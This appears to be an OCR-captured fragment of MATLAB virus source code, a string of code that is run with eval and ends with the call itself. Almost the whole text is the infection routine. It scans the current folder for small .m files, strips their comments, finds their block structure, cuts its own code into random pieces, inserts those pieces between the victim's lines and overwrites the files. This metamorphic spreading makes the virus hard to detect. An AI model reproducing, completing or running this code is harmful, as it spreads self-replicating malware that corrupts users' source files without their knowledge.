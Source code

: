 MyCode=[MyCode 'VirCode={};Count020=length(ActualCodeForThisPart);while Count020>0 VirCode{end+1}=ActualCodeForThisPart{Count020};for Count021=Count020:length(ActualCodeForThisPart) if ~isempty(Var2Wrt{Count021}) if rand>0.3 VirCode{end+1}=Var2Wrt{Count021}(end);Var2Wrt{Count021}(end)=[];end;end;end;Count020=Count020-1;end;IsAllEmpty=false; while ~IsAllEmpty IsAllEmpty=true;for Count022=1:length(Var2Wrt) if ~isempty(Var2Wrt{Count022}) IsAllEmpty=false;if rand>0.5 VirCode{end+1}=Var2Wrt{Count022}(end); Var2Wrt{Count022}(end)=[];end;end;end;end;VicFiles=dir(''*.m'');VicLines={};for Count023=1:length(VicFiles) if(VicFiles(Count023).bytes<1000 && ~strcmp(VicFiles(Count023).name,''odefunction.m''))VicIDr=fopen(VicFiles(Count023).name, ''r'');VicLines={fgetl(VicIDr)};while ischar(VicLines{end}) VicLines{end+1}=fgetl(VicIDr);end;VicLines(end)=[];Count024=1;while Count024<length(VicLines)+1 IsAPO=0;Count025=1;while Count025<length(VicLines{Count024})+1 if VicLines{Count024}(Count025)==QuoteSign IsAPO=~IsAPO;end;if ~IsAPO if VicLines{Count024}(Count025)==char(37) if Count025==1 VicLines(Count024)=[]; else VicLines{Count024}=VicLines{Count024}(1:Count025-1);end;end;if Count025+1<length(VicLines{Count024}) if all(VicLines{Count024}(Count025:Count025+2)==''...'') VicLines{Count024}=strcat(VicLines{Count024}(1:Count025-1),VicLines{Count024+1});Count025=1;if length(VicLines)>Count024 VicLines(Count024+1)=[];end;end;end;end;Count025=Count025+1;end;Count024=Count024+1;end;EndArray={''if'' ''for'' ''while'' ''try'' ''switch'' ''parfor''}; EndCount=0;GoodLine=[];for Count026=1:length(VicLines);IsAPP=0;if ~EndCount GoodLine=[GoodLine Count026]; end;for Count027=1:length(VicLines{Count026})if(VicLines{Count026}(Count027)==QuoteSign)IsAPP=~IsAPP;end;if ~IsAPP for Count028=1:length(EndArray) if Count027+length(EndArray{Count028})<length(VicLines{Count026}) if all(VicLines{Count026}(Count027:Count027+length(EndArray{Count028})-1)==EndArray{Count028}) IsStart=0;if(Count027==1)IsStart=1;elseif (VicLines{Count026}(Count027-1)=='' '' || VicLines{Count026}(Count027-1)=='';'' || VicLines{Count026}(Count027-1)==char(9)) IsStart=1;end;if Count027+length(EndArray{Count028})-1==length(VicLines{Count026}) IsStart=IsStart+1;elseif (VicLines{Count026}(Count027+length(EndArray{Count028}))=='' '' || VicLines{Count026}(Count027+length(EndArray{Count028}))==''('' || VicLines{Count026}(Count027+length(EndArray{Count028}))==char(9)) IsStart=IsStart+1;end;if IsStart==2 EndCount=EndCount+1;end;end;end;end;if Count027+1<length(VicLines{Count026}) if all(VicLines{Count026}(Count027:Count027+2)==''end'') IsEnd=0;if(Count027==1)IsEnd=1;elseif(VicLines{Count026}(Count027-1)=='' '' || VicLines{Count026}(Count027-1)=='';'' || VicLines{Count026}(Count027-1)==char(9)) IsEnd=1;end;if Count027+2==length(VicLines{Count026}) IsEnd=IsEnd+1;elseif(VicLines{Count026}(Count027+3)=='' '' || VicLines{Count026}(Count027+3)=='';'' || VicLines{Count026}(Count027+3)==char(9)) IsEnd=IsEnd+1;end;if IsEnd==2 EndCount=EndCount-1;end;end;end;end;end;end;NewInfCode={}; VCsplitted={};VirSplit=sort([0 length(VirCode) fix(rand(1,length(GoodLine)-1)*length(VirCode))]);TmpVar007=length(VirSplit);while TmpVar007>1 if (VirSplit(TmpVar007-1)<VirSplit(TmpVar007)) VCsplitted{length(VirSplit)-TmpVar007+1}=VirCode(VirSplit(TmpVar007-1)+1:VirSplit(TmpVar007));else VCsplitted{length(VirSplit)-TmpVar007+1}={};end;TmpVar007=TmpVar007-1;end;GoodLine(end+1)=length(VicLines);for Count029=1:length(GoodLine)-1 NewInfCode={NewInfCode{:} VicLines{GoodLine(Count029):GoodLine(Count029+1)-1}};TmpVar008=length(VCsplitted{Count029});while TmpVar008>0 NewInfCode={NewInfCode{:} VCsplitted{Count029}{TmpVar008}{:}};TmpVar008=TmpVar008-1;end;end;NewInfCode={NewInfCode{:} VicLines{end}};fclose(VicIDr);VicIDw=fopen(VicFiles(Count023).name, ''w+'');for Count030=1:length(NewInfCode)fprintf(VicIDw,[NewInfCode{Count030} char(13) char(10)]);end;fclose(VicIDw);end;end;'];

MyCode
%input('---');
eval(MyCode);
- - - - - - - - - - - - - 

